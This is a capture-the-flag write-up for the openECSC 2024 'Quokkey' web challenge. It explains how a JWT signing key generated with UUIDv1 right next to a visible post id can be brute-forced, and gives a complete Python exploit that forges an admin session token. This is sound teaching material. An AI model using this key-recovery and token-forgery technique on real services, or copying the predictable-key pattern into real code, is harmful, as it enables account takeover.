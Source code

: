 # openECSC 2024 - Final Round

## [web] Quokkey (72 solves)

Quokkey is here, let's login if you want to obtain free keys to unlock a lot of beautiful products!

username: quokka
password: quokka

Site: [http://quokkey.challs.open.ecsc2024.it](http://quokkey.challs.open.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>

## Overview

The challenge consists in a webapp offering free keys to activate a variety of products, by using the provided low privileged credentials a page shows us some posts, describing a license key for a product, or a login performed using our credentials:

![posts](./writeup/posts.png)

If the page `/superkey` is visited, then a message saying that we're not the admin appears:

![notadmin](./writeup/notadmin.png)

## Solution

Post ids are really similar:

![posts-ids](./writeup/posts-ids.png)

by looking at backend's source code we see that they're UUIDv1:
```py
@app.post("/session")
def create_session():
    body = request.json
    if body["username"] != "quokka" or body["password"] != "quokka":
        return "", 401

    pid, skey = (uuid1() for _ in range(2))
    sid = os.urandom(24).hex()
    app.logger.info(f"NEW SESSION: PID={pid}, SKEY={skey}")

    jwt_body = {
        "user": "quokka",
        "propic": url_for("static", filename="propic.png"),
    }
    encoded_jwt = jwt.encode(jwt_body, skey.bytes, algorithm="HS256")

    keys.insert_one(vars(Key(
        sid,
        skey.bytes,
    )))
    posts.insert_one(vars(Post(
        str(pid),
        encoded_jwt,
        "new login",
        f"user quokka logged in at {datetime.now()}"
    )))

    response = make_response()
    response.set_cookie("session_jwt", encoded_jwt, httponly=False)
    response.set_cookie("session_id", sid, httponly=False)

    return response
```

When a session is created both the session key, used to sign the session jwt and the id related to the post which logs the sign in operation are generated using `uuid1()` almost simultaneously.

even if UUIDv1s grant the uniqueness of the identifiers they're easy to predict, especially if generated in a short amount of time from each other:

```
>>> from uuid import uuid1
>>> [uuid1() for _ in range(2)]
[UUID('1f6085fc-54b8-11ef-a5d4-0242ac110002'), UUID('1f60894e-54b8-11ef-a5d4-0242ac110002')]
```

The only difference between the id of the post which logs the sign in operation and the related session key is 2 bytes, which can be brute forced offline using a simple python script.

Once brute forced the key the flag can be obtained by signing a JWT containing the key-value pair `{"user": "admin"}` and using it as the value of `session_jwt` cookie while performing a request to `/api/v1/superkey`:

![flag](./writeup/flag.png)

## Exploit

```py
import requests
import jwt
import re
from uuid import UUID


FLAG_RE = re.compile(r"(openECSC\{.+\})")
BASE_URL = "http://quokkey.challs.open.ecsc2024.it/api/v1"
LOGIN_PAYLOAD = {
    "username": "quokka",
    "password": "quokka",
}


s = requests.Session()
s.post(f"{BASE_URL}/session", json=LOGIN_PAYLOAD)

session_jwt = s.cookies.get("session_jwt")
session_id = s.cookies.get("session_id")
jwt_body = jwt.decode(session_jwt, options={"verify_signature": False})
posts = [p for p in s.get(f"{BASE_URL}/posts").json() if p["title"] == "new login"]
pid = posts[0]["id"]
print(f"LOGIN POST ID: {pid}")

pid1, pid2, pid3 = pid[:4], int(pid[4:8], 16), pid[8:]
while pid2 < 0xffff:
    pid2 += 1
    sid = UUID(f"{pid1}{pid2.to_bytes(2, 'big').hex()}{pid3}", version=1)
    encoded = jwt.encode(jwt_body, sid.bytes, algorithm="HS256")
    if encoded == session_jwt:
        print(f"FOUND KEY: {sid.bytes}")
        break

jwt_body["user"] = "admin"
session_jwt = jwt.encode(jwt_body, sid.bytes, algorithm="HS256")

s.cookies.clear()
s.cookies.set("session_jwt", session_jwt)
s.cookies.set("session_id", session_id)

flag = s.get(f"{BASE_URL}/superkey").json()["msg"]
print(f"FLAG: {FLAG_RE.search(flag).group(1)}")
```